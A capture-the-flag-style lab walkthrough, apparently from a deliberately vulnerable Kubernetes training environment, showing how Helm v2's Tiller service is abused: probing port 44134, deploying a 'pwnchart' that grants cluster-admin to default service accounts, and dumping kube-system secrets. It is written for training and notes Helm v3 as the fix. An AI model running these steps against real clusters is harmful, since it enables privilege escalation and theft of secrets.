 # Helm v2 tiller to PwN the cluster

## Scenario Information

Helm is a package manager for Kubernetes. It's like `apt-get` for ubuntu. In this scenario, we will see the older version of helm (version 2), tiller service RBAC default setup to gain access to the completed cluster.

* To get started with the scenario, run the following command

```bash
kubectl run --rm --restart=Never -it --image=madhuakula/k8s-goat-helm-tiller -- bash
```

![Scenario 9 welcome](images/sc-9-1.png)

## Scenario Solution

* By default helm version 2 tiller deployment has RBAC with full cluster administrator privileges
* So the default installation is in `kube-system` namespace with service name `tiller-deploy` and port `44134` exposed to `0.0.0.0`. So we can verify by running telnet command

```bash
telnet tiller-deploy.kube-system 44134
```

![Scenario 9 telnet](images/sc-9-2.png)

* Now, we are able to connect to the tiller service port. We can use the helm binary to perform operations and talk to tiller service

```bash
helm --host tiller-deploy.kube-system:44134 version
```

![Scenario 9 telnet](images/sc-9-3.png)

* Let's try if we can get Kubernetes secrets from the cluster from `kube-system` namespace

```bash
kubectl get secrets -n kube-system
```

![Scenario 9 before secrets](images/sc-9-4.png)

* Now we can create our own helm chart to give permissions to default service account full cluster admin access, as by default the current pod deployed in default namespace which has the default service account

```bash
helm --host tiller-deploy.kube-system:44134 install --name pwnchart /pwnchart
```

![Scenario 9 deploy chart](images/sc-9-5.png)

* Now the `pwnchart` has been deployed, it has given all the default service accounts cluster admin access. Hence let's try getting the `kube-system` namespace secrets again

```bash
kubectl get secrets -n kube-system
```

![Scenario 9 deploy chart](images/sc-9-6.png)

> This scenario varies how the tiller deployment has been performed, sometimes admins deploy tiller to a specific namespace with specific privilege. Also from Helm version 3, there is no tiller service to mitigate such vulnerabilities

## Miscellaneous

* [https://engineering.bitnami.com/articles/helm-security.html](https://engineering.bitnami.com/articles/helm-security.html)
